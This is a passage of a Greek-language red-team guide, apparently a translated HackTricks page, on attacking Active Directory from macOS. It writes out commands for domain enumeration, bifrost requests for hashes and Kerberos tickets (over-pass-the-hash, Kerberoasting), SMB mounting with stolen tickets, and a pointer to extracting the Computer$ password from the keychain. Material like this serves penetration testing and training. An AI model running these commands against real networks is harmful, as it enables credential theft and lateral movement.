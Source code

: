 ```bash
dscl "/Active Directory/TEST/All Domains" ls /Groups
dscl "/Active Directory/TEST/All Domains" read "/Groups/[groupname]"

#Domain Information
dsconfigad -show
```
Περισσότερες πληροφορίες στο [https://its-a-feature.github.io/posts/2018/01/Active-Directory-Discovery-with-a-Mac/](https://its-a-feature.github.io/posts/2018/01/Active-Directory-Discovery-with-a-Mac/)

### Computer$ password

Αποκτήστε κωδικούς πρόσβασης χρησιμοποιώντας:
```bash
bifrost --action askhash --username [name] --password [password] --domain [domain]
```
Είναι δυνατόν να αποκτήσετε τον κωδικό πρόσβασης **`Computer$`** μέσα από το System keychain.

### Over-Pass-The-Hash

Αποκτήστε ένα TGT για έναν συγκεκριμένο χρήστη και υπηρεσία:
```bash
bifrost --action asktgt --username [user] --domain [domain.com] \
--hash [hash] --enctype [enctype] --keytab [/path/to/keytab]
```
Μόλις συγκεντρωθεί το TGT, είναι δυνατή η έγχυσή του στην τρέχουσα συνεδρία με:
```bash
bifrost --action asktgt --username test_lab_admin \
--hash CF59D3256B62EE655F6430B0F80701EE05A0885B8B52E9C2480154AFA62E78 \
--enctype aes256 --domain test.lab.local
```
### Kerberoasting
```bash
bifrost --action asktgs --spn [service] --domain [domain.com] \
--username [user] --hash [hash] --enctype [enctype]
```
Με τα αποκτηθέντα εισιτήρια υπηρεσίας είναι δυνατή η προσπάθεια πρόσβασης σε κοινόχρηστα αρχεία σε άλλους υπολογιστές:
```bash
smbutil view //computer.fqdn
mount -t smbfs //server/folder /local/mount/point
```
## Πρόσβαση στο Keychain

Το Keychain περιέχει πιθανότατα ευαίσθητες πληροφορίες που αν αποκτηθούν χωρίς να παραχθεί προτροπή θα μπορούσαν να βοηθήσουν στην προώθηση μιας άσκησης red team:

{% content-ref url="macos-keychain.md" %}
[macos-keychain.md](macos-keychain.md)
{% endcontent-ref %}

## Εξωτερικές Υπηρεσίες
